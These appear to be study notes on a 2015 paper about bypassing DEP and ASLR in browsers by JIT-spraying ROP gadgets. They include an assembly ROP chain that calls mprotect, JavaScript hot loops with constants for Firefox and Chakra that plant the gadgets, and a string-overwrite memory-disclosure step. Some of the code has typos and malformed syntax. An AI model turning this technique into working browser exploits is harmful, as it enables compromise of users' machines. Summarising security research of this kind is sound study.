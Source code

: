 ### Attack Summary

To extend ***JIT-ROP***, it is possible to dynamically construct the ROP payload without using any of the available gadgets contained in the browser binary or linked libraries. It is made possible by carefully crafting the input source code so that it contains the required gadgets.

### Attacker Threat Model

Several defenses are up on the system: data execution prevention (DEP), memory randomization (ASLR), stack smashing protection (EMET, canaries). 

### Recipe

(1) The browser ***renders a malicious web page*** (2) The JavaScript code in this page, once compiled, ***produces a series of gadgets in the JIT buffer*** (3)  A memory-disclosure bug ***reveals the locations of the gadgets*** (4) A ROP chain ***is built with the just constructed gadgets*** and control is transferred to it (5) The ROP chain ***calls `VirtualProtect` (or `mprotect`) and makes the page where the shellcode is stored executable*** (6) Control is transferred to the shellcode and the ***browser is compromised***.

### Tools and Setup

**Firefox:** The ROP chain involves seven gadgets:

```assembly
pop %ebx; ret;       // page address
pop %ecx; ret;       // region length
xor %eax; %eax; ret; // 0 before mov
mov 0x7d; %a1; ret;  // mprotect set
xor %edx; %edx; ret; // 0 before mov
mov 0x7; %d1; ret;   // permissions to WRX
int 0x80; ret;       // mprotect call
```

The gadgets need to be added to the JIT buffer and the attacker needs to: (1) trigger a JIT compilation (2) add the gadgets to memory. For (1), creating a "hot loop" will most likely trigger the JIT compilation and for (2), variable are initialized with specially crafted immediate values.

```javascript
var g1 = 0;
// ...
var g7 = 0;
for (var i=0; i<10000; ++i) {
    g1 = 50011;
    g2 = 50009;
    g3 = 12828721;
    g4 = 12811696;
    g5 = 12833329;
    g6 = 12781490;
    g7 = 12812493;
}
```

**Chakra:**

The gadgets have to be generated differently due to the protections that Chakra has: ***constant blinding*** (<2bytes is emitted XORed with a random value), ***long gadgets cannot be encapsulated in immediate values*** (have to be split in several parts), ***code diversification***  (random number of `nop`s between instructions)

```javascript
function r8 (addr) {
    return addr + 0x5841;
}

function r9 (addr) {
    returnn addr + 0x5941;
}

function emit_gadgets() {
    for (i=0; i<10000; i++) {
        rax = 0xc358; // pop rax
        rcx = 0xc359; // pop rcx
        rdx = 0xc35a; // pop rdx
        r8(0);
        r9(0);
    }
    return 0;
}

emit_gadgets();
```

<img src="..//Articles/2015_Athanasakis_The Devil is in the Constants Bypassing Defenses/IE_attack.png" style="zoom: 67%;" />



However, the attacker needs to discover the location of the gadgets. By arbitrarily increasing the length of a JS string object and by reading the string's content, the attacker can read past the end of the string. The attacker can then discover any object's *vtable* and transform the overwrite to a memory disclosure.

<img src="../Articles/2015_Athanasakis_The Devil is in the Constants Bypassing Defenses/DisclosureAttack.png" style="zoom: 67%;" />

